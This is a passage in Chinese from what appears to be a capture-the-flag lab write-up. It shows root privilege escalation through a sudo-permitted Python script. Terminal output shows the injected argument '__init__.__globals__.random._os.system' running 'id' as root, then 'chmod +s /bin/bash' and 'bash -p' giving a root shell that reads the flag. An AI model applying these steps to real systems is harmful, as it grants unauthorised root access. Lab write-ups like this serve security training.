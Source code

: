 是我们可以攻击的版本，尝试构造一下代码进行利用！！！！！

先尝试一下提供的POC：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404091729404.png" alt="image-20240409172626698" style="zoom:50%;" />

```bash
╭─vic@tiny ~ 
╰─$ sudo /usr/bin/python3 /opt/car.py __init__.__globals__.random._os.system "id"
uid=0(root) gid=0(root) groups=0(root)
0
```

牛蛙，尝试提权！

```bash
╭─vic@tiny ~ 
╰─$ sudo /usr/bin/python3 /opt/car.py __init__.__globals__.random._os.system "chmod +s /bin/bash"
0
╭─vic@tiny ~ 
╰─$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23  2023 /bin/bash
╭─vic@tiny ~ 
╰─$ /bin/bash -p
bash-5.2# whoami;id
root
uid=1000(vic) gid=1000(vic) euid=0(root) egid=0(root) groups=0(root),100(users),1000(vic)
bash-5.2# cd /root
bash-5.2# ls
root.txt
bash-5.2# cat root.txt 
0785ded6dbb7e73959924ad06152eabc
```

至此，得到flag！！！！
